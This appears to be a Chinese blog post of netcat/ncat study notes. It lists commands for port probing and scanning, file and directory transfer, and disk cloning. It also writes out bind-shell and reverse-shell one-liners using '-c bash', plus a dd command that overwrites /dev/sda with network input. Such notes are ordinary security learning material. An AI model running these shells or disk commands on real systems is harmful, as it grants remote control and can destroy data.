 ```yaml
---
layout: post
title: NC（ncat）学习笔记
categories: Security
description: NC（ncat）学习笔记
keywords: nc, ncat
---
```


接口探测
```
nc -nv 1.1.1.1 80		##接口探测，发起链接
```
文本交互
```
A:nc -l -p 4444
B:nc -vn 1.1.1.1 4444

nc -nv 1.1.1.1 4444 -q 1 		##输出结束1秒后结束链接
```
传输文件
```
接收端：nc -lp 4444 > 1.doc
发送端：nc -nv 1.1.1.1 4444 < 1.doc -q 1
or
接收端：nc -nv 1.1.1.1 4444 > 1.doc
发送端：nc -lp 4444 < 1.doc -q 1
```
传输目录
```
发送端:tar -cvf - music/ | nc -lp 4444 -q 1
接收端:nc -nv 1.1.1.1 4444 | tar -xvf -
```
端口扫描
```
nc -nvz 1.1.1.1 1-65535			##tcp端口扫描
nc -nvzu 1.1.1.1 1-1024			##UPD端口扫描
```

远程硬盘克隆
```
A:nc -lp 4444 | dd of=/dev/sda
B:dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
```
远程控制
```
正向：
A:nc -lp 4444 -c bash
B:nc 1.1.1.1 4444

反向：
A:nc -lp 4444
B:nc 1.1.1.1 4444 -c bash
```
ncat限制访问与加密传输
```
ncat -c bash --allow 2.2.2.2 -nvl 4444 --ssl
ncat -nv 1.1.1.1 4444 --ssl
```